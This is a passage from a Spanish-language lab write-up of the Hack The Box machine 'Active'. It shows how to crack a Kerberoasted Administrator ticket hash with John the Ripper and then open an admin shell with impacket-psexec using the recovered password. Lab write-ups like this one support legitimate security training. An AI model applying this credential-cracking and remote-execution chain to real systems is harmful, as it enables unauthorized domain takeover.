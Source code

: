 ```shell
nano hash

#Dentro del nano
$krb5tgs$23$*Administrator$ACTIVE.LOCAL$active.htb/Administrator*$<HASH_ADMIN>...
```

Lo guardamos y lo intentaremos crackear.

```shell
john --wordlist=<WORDLIST> hash
```

Si todo sale bien, deberiamos de poder crackearlo en tal caso de que sea una contarseña debil, se deberia de ver algo tal que asi:

```
Ticketmaster1968 (?)
```

Pongamos que esa es la contraseña del `Administrator`.

### psexec user admin

Por lo que teniendo la contraseña del administrador, nos conectaremos directamente desde la herramienta `psexec`.

```shell
impacket-psexec active.htb/Administrator:Ticketmaster1968@<IP_VICTIM> cmd.exe
```

Y con esto estariamos dentro como el usuario `administrador`.

